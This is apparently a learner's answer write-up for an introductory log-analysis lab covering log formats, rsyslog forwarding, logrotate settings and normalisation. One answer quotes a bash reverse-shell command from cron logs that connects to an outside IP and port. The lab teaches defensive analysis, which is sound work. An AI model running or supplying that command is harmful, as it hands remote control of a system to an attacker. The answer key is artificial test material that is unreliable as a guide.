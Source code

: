 > # Intro to Logs

# Summary
<!-- TOC -->

- [Summary](#summary)
    - [Task 2 - Expanding Perspectives: Logs as Evidence of Historical Activity](#task-2---expanding-perspectives-logs-as-evidence-of-historical-activity)
    - [Task 3 - Types, Formats, and Standards](#task-3---types-formats-and-standards)
    - [Task 4 - Collection, Management, and Centralisation](#task-4---collection-management-and-centralisation)
    - [Task 5 - Storage, Retention, and Deletion](#task-5---storage-retention-and-deletion)
    - [Task 6 - Hands-on Exercise: Log analysis process, tools, and techniques](#task-6---hands-on-exercise-log-analysis-process-tools-and-techniques)

<!-- /TOC -->

## Task 2 - Expanding Perspectives: Logs as Evidence of Historical Activity
1. What is the name of your colleague who left a note on your Desktop?<br>
    Open `note.txt` on desktop.<br>
    ![](images/1.png)<br>

1. What is the full path to the suggested log file for initial investigation?<br>
    >  You could look at the available logs in /var/log/gitlab/, but I suggest looking into /var/log/gitlab/nginx/access.log and searching for suspicious web browser activity first.

    **Answer:**  /var/log/gitlab/nginx/access.log

## Task 3 - Types, Formats, and Standards
1. Based on the list of log types in this task, what log type is used by the log file specified in the note from Task 2?<br>
    > Web Server Logs: Requests processed by a web server, including URLs, response codes, etc.

    **Answer:** Web Server Logs

1. Based on the list of log formats in this task, what log format is used by the log file specified in the note from Task 2?<br>
    > NCSA Combined Log Format (Combined): An extension of CLF, adding fields like referrer and user agent. It is typically used by Nginx HTTP Server by default.

    **Answer:** Combined

## Task 4 - Collection, Management, and Centralisation
1. After configuring rsyslog for sshd, what username repeatedly appears in the sshd logs at /var/log/websrv-02/rsyslog_sshd.log, indicating failed login attempts or brute forcing?<br>
    After configuring rsyslog for sshd, we will see the user is used to bruteforce.<br>
    ![](images/2.png)<br>
    **Answer:** stansimon

1. What is the IP address of SIEM-02 based on the rsyslog configuration file /etc/rsyslog.d/99-websrv-02-cron.conf, which is used to monitor cron messages?<br>
    ```
    $ cat /etc/rsyslog.d/99-websrv-02-cron.conf
    # Log Forwarding with rsyslog
    $FileCreateMode 0644
    :programname, isequal, "CRON" /var/log/websrv-02/rsyslog_cron.log
    # Forward Logs to SIEM-02:51514
    # *.* @10.10.10.101:51514
    ```

1. Based on the generated logs in /var/log/websrv-02/rsyslog_cron.log, what command is being executed by the root user?<br>
    Open the given file, you will see the command run by the root user.<br>
    ![](images/3.png)<br>
    **Answer:** /bin/bash -c "/bin/bash -i >& /dev/tcp/34.253.159.159/9999 0>&1"

## Task 5 - Storage, Retention, and Deletion
1. Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, how many versions of old compressed log file copies will be kept?<br>
    Read this file, you will the value of `rotate` is 24.<br>
    **Answer:** 24

1. Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, what is the log rotation frequency?<br>
    **Answer:** hourly

## Task 6 - Hands-on Exercise: Log analysis process, tools, and techniques
1. Upon accessing the log viewer URL for unparsed raw log files, what error does "/var/log/websrv-02/rsyslog_cron.log" show when selecting the different filters?<br>
    Open cron and sshd log, you will see the error on browser.<br>
    ![](images/4.png)<br>
    **Answer:** No date field

1. What is the process of standardising parsed data into a more easily readable and query-able format?<br>
    > Normalisation is standardising parsed data. It involves bringing the various log data into a standard format, making comparing and analysing data from different sources easier.

    **Answer:** Normalisation

1. What is the process of consolidating normalised logs to enhance the analysis of activities related to a specific IP address?<br>
    > Enrichment makes logs more valuable, enabling analysts to make better decisions and more accurately respond to incidents. 

    **Answer:** Enrichment

